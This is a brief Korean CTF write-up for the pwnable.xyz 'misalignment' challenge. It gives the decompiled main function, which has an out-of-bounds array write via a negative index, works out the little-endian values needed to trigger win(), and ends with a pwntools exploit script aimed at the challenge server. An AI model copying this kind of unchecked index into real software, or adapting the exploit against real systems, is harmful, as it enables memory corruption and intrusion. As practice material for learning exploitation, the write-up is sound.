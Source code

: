 ```yaml
---
title: "[pwnable.xyz]misalignment"
date: 2020-1-12
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


```c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-A0h]
  _QWORD v5[3]; // [rsp+18h] [rbp-98h]
  __int64 v6; // [rsp+30h] [rbp-80h]
  __int64 v7; // [rsp+38h] [rbp-78h]
  __int64 v8; // [rsp+40h] [rbp-70h]
  unsigned __int64 v9; // [rsp+A8h] [rbp-8h]
 
  v9 = __readfsqword(0x28u);
  setup(*(_QWORD *)&argc, argv, envp);
  memset(&s, 0, 152uLL);
  *(_QWORD *)((char *)v5 + 7) = 0xDEADBEEFLL;
  while ( (unsigned int)_isoc99_scanf("%ld %ld %ld", &v6, &v7, &v8) == 3 && v8 <= 9 && v8 >= 4294967289 )// v8>=-7
  {
    v5[v8 + 6] = v6 + v7;
    printf("Result: %ld\n", v5[v8 + 6]);
  }
  if ( *(_QWORD *)((char *)v5 + 7) == 0xB000000B5LL )
    win();
  return 0;
}
```

0xb5, 0x00, 0x00, 0x00, 0xb0, 0x00, 0x00, 0x00, 0x00 이런식으로 리틀엔디안으로 넣어주면 된다.

64비트에서 scanf의 %ld는 2^63 − 1 보다 큰 값이 들어올 경우 2^63-1 이다.

```
>>> 0xb500000000000000 - 0xffffffffffffffff - 1
-5404319552844595200L

>>> 0x0b000000
184549376
```

v5[0]에 0xb500000000000000 , v5[1]에 0x0b000000을 넣어주면 된다.

![](https://user-images.githubusercontent.com/32904385/72206532-86595780-34d2-11ea-9b45-2005bc8ff603.png)

> exploit.py

```python
from pwn import *
 
#p= process("./challenge")
p=remote("svc.pwnable.xyz",30003)
 
context.log_level='debug'
 
p.writeline("-5404319552844595200 0 -6")
p.readuntil("Result: ")
p.writeline("184549376 0 -5")
p.readuntil("Result: ")
p.writeline("1 1 1000")
p.interactive()
```

